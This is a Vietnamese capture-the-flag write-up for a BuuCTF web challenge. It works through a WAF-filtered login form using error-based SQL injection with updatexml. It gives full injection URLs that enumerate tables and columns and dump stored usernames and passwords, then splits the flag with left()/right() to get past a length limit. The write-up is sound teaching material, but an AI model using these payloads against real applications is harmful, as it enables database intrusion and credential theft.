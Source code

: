 ![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/aa50aa77-e28d-44b1-864d-8243a56c7e95)

Vào challenge thì ta sẽ có 1 form đăng nhập như trên, mình thử 1 vài câu lệnh SQL cơ bản nhưng có lẽ nó đã bị filter bởi WAF.

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/4cb2fe44-30a7-43d1-9630-729e8a4629e0)

Do đó mình đã thử fuzzing các payload

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/4ba246aa-0aa6-403e-8944-be515fd82834)

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/44714c44-ba6b-4ea3-a6ea-39ddc8ec9198)

Ta có thể thấy rằng các từ như ``AND``, ``UNION``,... đã bị filter. Nhưng nó cũng để hở ra 1 vài từ như ``updatexml``, ``TABLE_SCHEMA``, do đó mình có thể sử dụng hàm ``updatexml`` để tạo payload.

``http://d6e89027-2d4b-48bc-ab4a-89c40fa15598.node4.buuoj.cn:81/check.php?username=admin%27or(updatexml(1,concat(0x7e,database(),0x7e),1))%23&password=123``

Ta đã thành công với payload trên, tiếp theo ta sẽ show các bảng ra.

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/a3e5adc8-10eb-4a19-90ab-b573524852ad)

``http://d6e89027-2d4b-48bc-ab4a-89c40fa15598.node4.buuoj.cn:81/check.php?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23&password=123``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/46d0a0b3-0968-4098-843b-a80e57832b85)

``http://d6e89027-2d4b-48bc-ab4a-89c40fa15598.node4.buuoj.cn:81/check.php?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like(%27H4rDsq1%27)),0x7e),1))%23&password=123``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/9f5a39f5-eb2f-4e5a-896f-110bb5876b7f)

``http://d6e89027-2d4b-48bc-ab4a-89c40fa15598.node4.buuoj.cn:81/check.php?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat(username,%27~%27,password))from(H4rDsq1)),0x7e),1))%23&password=123``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/f30863ee-8647-44a9-8533-05c8d6d74c87)

Do payload đưa vào có giới hạn độ dài nên mình sử dụng các câu lệnh ``left()`` và ``right()`` để truy vấn riêng biệt, sau đó nối chuỗi flag lại.

``http://d6e89027-2d4b-48bc-ab4a-89c40fa15598.node4.buuoj.cn:81/check.php?username=admin%27or(updatexml(1,concat(0x7e,(select(group_concat((right(password,25))))from(H4rDsq1)),0x7e),1))%23&password=123``

![image](https://github.com/elliSzAt/Writeup-BuuCTF/assets/125866921/a41a99ff-52cb-4257-ae34-1d42518fc12e)
